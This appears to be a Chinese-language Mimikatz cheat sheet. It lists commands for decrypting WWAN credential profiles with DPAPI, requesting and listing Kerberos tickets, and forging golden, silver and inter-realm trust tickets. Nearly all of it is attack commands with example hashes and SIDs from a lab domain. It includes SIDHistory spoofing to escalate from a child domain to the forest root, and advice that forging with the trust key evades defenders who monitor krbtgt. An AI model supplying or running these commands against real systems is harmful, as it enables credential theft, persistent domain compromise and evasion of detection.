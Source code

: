 ```
## wwan

解密Wwan的证书

```
mimikatz# dpapi::wwan /in:"C:\ProgramData\Microsoft\Wlansvc\Profiles{interface guid}\*.xml" /unprotect
```



# kerberos

## ask

可用于获取服务票证
```
mimikatz # kerberos::ask 0-40e10000-m3g9tr0n@krbtgt~HACKLAB.LOCAL-HACKLAB.LOCAL.kirbi /target:CIFS/dc.hacklab.local

mimikatz # kerberos::ask /rc4 0-40e10000-m3g9tr0n@krbtgt~HACKLAB.LOCAL-HACKLAB.LOCAL.kirbi /target:HTTP/dc.hacklab.local
```

## clist

 以MIT/Heimdall ccache格式列出门票
```
mimikatz # kerberos::clist
```

## golden

可以用来伪造金票和银票。它也可用于伪造域间信任密钥。

金票
```
mimikatz # kerberos::golden /domain:hacklab.local /sid:S-1-5-21-2725560159-1428537199-2260736313 /rc4:b5348d0a20a24a67ff544146a09cd292 /user:krbtgt /ticket:ticket.kirbi /groups:500,501,513,512,520,518,519
```

银票
```
mimikatz # kerberos::golden /domain:hacklab.local /sid:S-1-5-21-2725560159-1428537199-2260736313 /rc4:647dac3559c899c5fe4dad7723feb8c5 /user:m3g9tr0n /service:CIFS/dc.hacklab.local /target:dc.hacklab.local
```


**Golden ticket & SIDHistory spoofing**
当森林信任关系是双向的，有可能通过做SIDHistory欺骗，从一个子域升级到父根域。

```
mimikatz #kerberos::golden /domain:<domain_name> /sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name> /ticket:ticket.kirbi /sids:<sid_of_parent_domain>
```


**Inter-Realm Trust Tickets**
要获得森林信任密钥，必须使用 lsadump::trust /patch 命令。根据森林信任关系，使用信任密钥而不是 krbtgt 帐户可能更隐蔽，因为大多数防御机制都在监视 krbtgt 帐户

```
mimikatz # kerberos::golden /user:<user_name> /domain:<domain_name> /sid:<domain_sid> /sids:<sid_of_target_domain> /rc4:<trust_key_RC4_key> /service:krbtgt /target:<the_target_domain> /ticket:<file_to_save>